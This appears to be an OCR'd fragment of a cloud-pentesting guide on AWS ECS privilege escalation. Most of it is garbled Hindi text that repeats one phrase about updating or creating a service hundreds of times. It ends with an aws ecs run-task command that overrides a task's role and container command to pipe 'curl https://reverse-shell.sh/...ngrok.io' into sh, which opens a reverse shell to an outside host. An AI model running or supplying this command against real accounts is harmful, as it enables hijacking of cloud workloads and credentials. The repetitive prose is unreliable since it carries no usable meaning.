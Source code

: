 वास्तव में, उन अनुमतियों के साथ केवल अद्यतन सेवा|सेवा बनाएं करने की संभावना है कि अद्यतन सेवा|सेवा बनाएं करने के लिए अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कुछ भी अद्यतन सेवा|सेवा के साथ कु
```bash
aws ecs run-task \
--task-definition "<task-name>" \
--overrides '{"taskRoleArn":"<role-arn>", "containerOverrides":[{"name":"<container-name-in-task>","command":["/bin/bash","-c","curl https://reverse-shell.sh/6.tcp.eu.ngrok.io:18499 | sh"]}]}' \
--cluster <cluster-name> \
--network-configuration "{\"awsvpcConfiguration\":{\"assignPublicIp\": \"DISABLED\", \"subnets\":[\"<subnet-name>\"]}}"
```
{% endcode %}

